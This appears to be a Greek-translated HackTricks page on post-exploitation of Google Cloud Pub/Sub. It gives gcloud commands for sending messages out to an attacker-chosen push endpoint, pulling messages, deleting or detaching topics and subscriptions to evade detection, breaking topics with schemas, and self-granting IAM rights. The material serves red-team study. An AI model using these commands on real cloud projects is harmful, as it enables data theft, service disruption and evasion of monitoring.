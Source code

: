 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Για περισσότερες πληροφορίες σχετικά με το Pub/Sub, ελέγξτε την παρακάτω σελίδα:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Δημοσιεύστε ένα μήνυμα σε ένα θέμα, χρήσιμο για **να στείλετε απροσδόκητα δεδομένα** και να ενεργοποιήσετε απροσδόκητες λειτουργίες ή να εκμεταλλευτείτε ευπάθειες:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.\
Είναι δυνατόν να διαγραφεί ένα θέμα ακόμη και με συνδρομές συνδεδεμένες σε αυτό.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις του θέματος για να το διαταράξετε, όπως `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Δώστε στον εαυτό σας άδεια να εκτελέσει οποιαδήποτε από τις προηγούμενες επιθέσεις.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Αποκτήστε όλα τα μηνύματα σε έναν διακομιστή ιστού:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Δημιουργήστε μια συνδρομή και χρησιμοποιήστε την για να **τραβήξετε μηνύματα**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Η διαγραφή μιας συνδρομής** θα μπορούσε να είναι χρήσιμη για να διαταράξει ένα σύστημα επεξεργασίας καταγραφών ή κάτι παρόμοιο:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις ώστε τα μηνύματα να αποθηκεύονται σε ένα μέρος που μπορείτε να έχετε πρόσβαση (URL, Big Query table, Bucket) ή απλώς για να το διαταράξετε.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Επιτεθείτε σε ένα σχήμα σε ένα θέμα ώστε τα μηνύματα να μην το πληρούν και επομένως το θέμα να διαταραχθεί.\
Αν δεν υπάρχουν σχήματα, ίσως χρειαστεί να δημιουργήσετε ένα.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Αυτό μπορεί να φαίνεται σαν να διαγράφετε ένα σχήμα, αλλά θα μπορείτε να στείλετε μηνύματα που δεν πληρούν το σχήμα. Ωστόσο, καθώς το σχήμα θα διαγραφεί, κανένα μήνυμα δεν θα εισέλθει πραγματικά μέσα στο θέμα. Έτσι, αυτό είναι **ΑΧΡΗΣΤΟ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Αυτό θα δημιουργήσει ένα στιγμιότυπο όλων των μηνυμάτων που δεν έχουν επιβεβαιωθεί και θα τα επιστρέψει στη συνδρομή. Όχι πολύ χρήσιμο για έναν επιτιθέμενο, αλλά εδώ είναι:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

